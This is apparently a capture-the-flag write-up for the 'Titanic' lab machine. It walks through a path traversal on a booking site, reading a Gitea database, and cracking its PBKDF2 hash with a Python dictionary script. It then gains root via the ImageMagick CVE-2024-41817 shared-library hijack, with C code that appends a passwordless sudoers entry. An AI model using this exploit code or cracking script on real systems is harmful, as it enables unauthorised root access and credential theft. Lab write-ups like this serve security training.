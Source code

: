 ```yaml
---
layout: post
title: "Titanic 1eab9525529180a9b52fc9a7eb126a50"
date:   2025-07-17 12:05:57 -0400
categories: writeups
---
```


# Titanic

# 1. Enumeration

Start enumerating ports

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image.png' | relative_url }})

A web application running on port 80, it is possible to book a trip

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_1.png' | relative_url }})

Then we can download the resume of the booking

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_2.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_3.png' | relative_url }})

# 2. User flag

There is no input sanitization at all, we can access another files performing path traversal attack

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_4.png' | relative_url }})

Easy to enumerate users, with a shell available

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_5.png' | relative_url }})

A really easy way to access the user flag using this information

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_6.png' | relative_url }})

This seems to be a unintended, anyways we need to do more steps further to gain a shell as this user, enumerate subdomains using FFUF

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_7.png' | relative_url }})

A version controlling is present in this subdomain

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_8.png' | relative_url }})

Check the compose file to find worthy paths

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_9.png' | relative_url }})

This is just a clue, the root gitea directory is disclosed, now we need to find a config file or a database, those are possible paths

```python
/var/lib/gitea/data/gitea.db
/data/gitea/conf/app.ini
~/.gitea/custom/conf/app.ini
```

finally it is on `/home/developer/gitea/data/gitea/gitea.db`

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_10.png' | relative_url }})

There is a hash with this password hash algorithm (pbkdf2)

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_11.png' | relative_url }})

Search a little bit to be able to crack it using hashcat

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_12.png' | relative_url }})

Follow the previous instructions but don’t forget it is in hexadecimal format, we need to pass it from hex to its original bytes format, then we can encode it to base64

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_13.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_14.png' | relative_url }})

Another way is using a python script, automating this process and avoiding using hashcat

```python
import hashlib
import binascii

def create_pbkdf2hash(password, salt, iterations, dklen):
	hash_gen = hashlib.pbkdf2_hmac('sha256',password.encode('utf-8'), salt, iterations, dklen)
	return hash_gen

def crack_hash(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
	with open(dictionary_file, 'r', encoding='utf-8') as f:
		count = 0;
		for line in f:
			password = line.strip()
			hash_value = create_pbkdf2hash(password, salt, iterations, dklen)
			count += 1
			if hash_value == target_hash:
				print(f'password found: {line}, count {count}')
		print('Password not found')
		

salt = binascii.unhexlify('salt')
target_hash = binascii.unhexlify('hash')
dictionary_file = '/usr/share/wordlist/rockyou.txt'
crack_hash(dictionary_file, target_hash, salt)
```

Then password is found and we can access as developer through ssh

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_15.png' | relative_url }})

# 3.Priv esc

In opt there are some automation scripts, this takes every .jpg in a directory and it is passed to `magick` tool to identify every image

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_16.png' | relative_url }})

Checking it version we can see it is vulnerable to CVE-2024-41817, basically it is compiled by gcc, imagemagick is leaving some environment variables (LD_LIBRARY_PATH, MAGICK_COINFIGURE_PAHT) with insecure paths, if those paths do not exist, the tool will fallback using shared libraries present in the current directory

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_17.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_18.png' | relative_url }})

We have control over the current directory where it is executing, use the POC to create a malicious shared library

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_19.png' | relative_url }})

Wait a little bit until it is compiled and get the root flag

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_20.png' | relative_url }})

Another way to do it, giving a root shell to developer user

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```

```bash
gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
```

Machine pwned!!!@
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
